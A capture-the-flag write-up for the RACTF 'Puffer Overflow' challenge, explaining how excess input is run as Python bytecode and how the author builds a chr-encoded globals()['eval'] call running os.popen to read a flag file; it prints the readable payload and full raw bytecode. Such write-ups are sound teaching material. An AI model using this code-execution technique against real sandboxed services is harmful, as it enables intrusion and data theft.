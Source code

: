 # Puffer Overflow

> Let's review the code.

There's two interesting functions - put\_on\_stack, which generates some interesting python bytecode to put a value onto the stack, and returns it.

Then, there's execute bytecode. It takes some bytecode, and, well, executes it. How though?

It loads 256 constants - 1,2,3, etc. matching up to 1,2,3,etc. As global variables, it loads the functions chr, ord, globals, locals, getattr and setattr. We have to use these functions alone to gain RCE. Impossible? No. But lets look into how we can do this.

We input a name. It takes the first 32 bytes of this, and generates some byte code that puts this name onto the stack. It then prepends said bytecode to all bytes afterwards, and executes it. If we put 0-32 chars, this is fine, but if we input anymore, then from the 33th character onwards is executed as python bytecode!

We must generate python bytecode that utilises the small set of functions and variables we have to gain RCE. My final payload in python code form was globals\(\)\[chr\(101\)+chr\(118\)+chr\(97\)+chr\(108\)\]\(chr\(95\)+chr\(95\)+chr\(98\)+chr\(117\)+chr\(105\)+chr\(108\)+chr\(116\)+chr\(105\)+chr\(110\)+chr\(115\)+chr\(95\)+chr\(95\)+chr\(46\)+chr\(95\)+chr\(95\)+chr\(105\)+chr\(109\)+chr\(112\)+chr\(111\)+chr\(114\)+chr\(116\)+chr\(95\)+chr\(95\)+chr\(40\)+chr\(39\)+chr\(111\)+chr\(115\)+chr\(39\)+chr\(41\)+chr\(46\)+chr\(112\)+chr\(111\)+chr\(112\)+chr\(101\)+chr\(110\)+chr\(40\)+chr\(39\)+chr\(99\)+chr\(97\)+chr\(116\)+chr\(32\)+chr\(47\)+chr\(104\)+chr\(111\)+chr\(109\)+chr\(101\)+chr\(47\)+chr\(114\)+chr\(97\)+chr\(99\)+chr\(116\)+chr\(102\)+chr\(47\)+chr\(102\)+chr\(108\)+chr\(97\)+chr\(103\)+chr\(46\)+chr\(116\)+chr\(120\)+chr\(116\)+chr\(39\)+chr\(41\)+chr\(46\)+chr\(114\)+chr\(101\)+chr\(97\)+chr\(100\)+chr\(40\)+chr\(41\)\)

Not very readable, but in normal python code,

```python
globals()['eval']('__builtins__.__import__("os").popen("cat /home/ractf/flag.txt").read()')
```

How can we do this? We can't just go about compiling a .pyc or code using compile\(\) - those files create constants and globals to suit them. We can't do this however, we must only use constants and variables given to us. We can analyse the put\_on\_stack function, and see what it does

* `b"t\x00"` - load the first global, chr. We can replace with \x02 to load the 3rd global, globals
* `b"d<number>"` - load constant for argument. When doing globals\(\), we don't need this.
* `b"\x83\x01"` - call current function with 1 argument
* `b"\x17\x00"` - binary add. does first value on stack + second value. note it's called binary but it can be used to concatenate strings just like adding numbers bcoz its python at the end of the day

we can use this to generate bytecode to call globals, `b"t\x02\x83\x00"`. Then, we must dynamically construct the word "eval" using only chr via the same methods the put\_on\_stack function uses. After that, we use the BINARY\_SUBSCR opcode, b"\x19\x00", which computes TOP1 = TOP1\[TOP2\]

Now what? Loaded on the stack is the function eval. Now, using the same method as put\_on\_stack again, we construct our python payload that cats the flag. Finally, we wrap it all up with a b"\x83\x01" - call the function eval, loaded from globals\(\)\['eval'\], with one argument.

I ended up doing some enumeration, and finding `flag.txt` in `/home/ractf`, then catting it.

This results in the flag ractf{Puff3rf1sh??}. I will post the final bytecode below and my generation script and final exploit script as `generator.py` and `puffer.py`.

Bytecode:

```text
t\x02\x83\x00t\x00de\x83\x01t\x00dv\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dl\x83\x01\x17\x00\x19\x00t\x00d_\x83\x01t\x00d_\x83\x01\x17\x00t\x00db\x83\x01\x17\x00t\x00du\x83\x01\x17\x00t\x00di\x83\x01\x17\x00t\x00dl\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00di\x83\x01\x17\x00t\x00dn\x83\x01\x17\x00t\x00ds\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00di\x83\x01\x17\x00t\x00dm\x83\x01\x17\x00t\x00dp\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00dr\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d(\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00ds\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00d)\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00dp\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00dp\x83\x01\x17\x00t\x00de\x83\x01\x17\x00t\x00dn\x83\x01\x17\x00t\x00d(\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00dc\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00d \x83\x01\x17\x00t\x00d/\x83\x01\x17\x00t\x00dh\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00dm\x83\x01\x17\x00t\x00de\x83\x01\x17\x00t\x00d/\x83\x01\x17\x00t\x00dr\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dc\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00df\x83\x01\x17\x00t\x00d/\x83\x01\x17\x00t\x00df\x83\x01\x17\x00t\x00dl\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dg\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00dx\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00d)\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00dr\x83\x01\x17\x00t\x00de\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dd\x83\x01\x17\x00t\x00d(\x83\x01\x17\x00t\x00d)\x83\x01\x17\x00\x83\x01
```

## ractf{Puff3rf1sh??}

